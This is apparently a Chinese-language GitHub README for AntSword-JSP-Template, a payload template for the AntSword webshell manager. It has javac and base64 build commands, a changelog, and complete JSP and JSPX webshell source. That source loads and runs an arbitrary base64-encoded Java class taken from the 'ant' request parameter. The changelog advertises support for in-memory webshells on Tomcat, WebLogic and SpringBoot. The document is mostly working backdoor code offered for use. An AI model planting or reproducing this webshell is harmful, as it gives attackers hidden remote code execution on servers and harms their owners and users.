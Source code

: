 # AntSword-JSP-Template  v1.4
中国蚁剑JSP一句话Payload

详细介绍：https://yzddmr6.tk/posts/antsword-diy-3/

编译环境：jdk6 + tomcat7

适用范围：jdk6及以上

## 编译

### 手动编译

* Windows

```
javac.exe -cp "./lib/servlet-api.jar;./lib/jsp-api.jar" Test.java

base64 -w 0 Test.class > Test.txt
```

* Linux/Mac

```bash
javac -cp "./lib/servlet-api.jar:./lib/jsp-api.jar" Test.java

base64 -w 0 Test.class > Test.txt
```

### 自动编译

在build.py中替换你的javac路径后运行，即可在`./dist`目录下自动生成代码模板。

```
python build.py
```

## Shell
shell.jsp

```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

shell.jspx
```
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" version="1.2">
    <jsp:declaration>
        class U extends ClassLoader {
            U(ClassLoader c) {
                super(c);
            }
            public Class g(byte[] b) {
                return super.defineClass(b, 0, b.length);
            }
        }
        public byte[] base64Decode(String str) throws Exception {
            try {
                Class clazz = Class.forName("sun.misc.BASE64Decoder");
                return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
            } catch (Exception e) {
                Class clazz = Class.forName("java.util.Base64");
                Object decoder = clazz.getMethod("getDecoder").invoke(null);
                return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
            }
        }
    </jsp:declaration>
    <jsp:scriptlet>
        String cls = request.getParameter("ant");
        if (cls != null) {
            new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
        }
    </jsp:scriptlet>
</jsp:root>
```
其中`pageContext`可以替换为`request`，以实现对内存Webshell的兼容。

## 更新日志

### v 1.4

1. 兼容JDK6
2. 兼容weblogic内存webshell
3. 优化报错信息
4. 解决windows下中文乱码的问题
5. 不再支持response作为入口参数
6. 增加用于测试的Web项目

### v 1.3

1. 兼容SpringBoot

### v 1.2

1. 修复下载文件的BUG
2. database添加Base64编码

### v 1.1

1. 增加对Tomcat内存Webshell的兼容
2. 兼容高版本JDK（JDK7-14）

### v 1.0

1. release
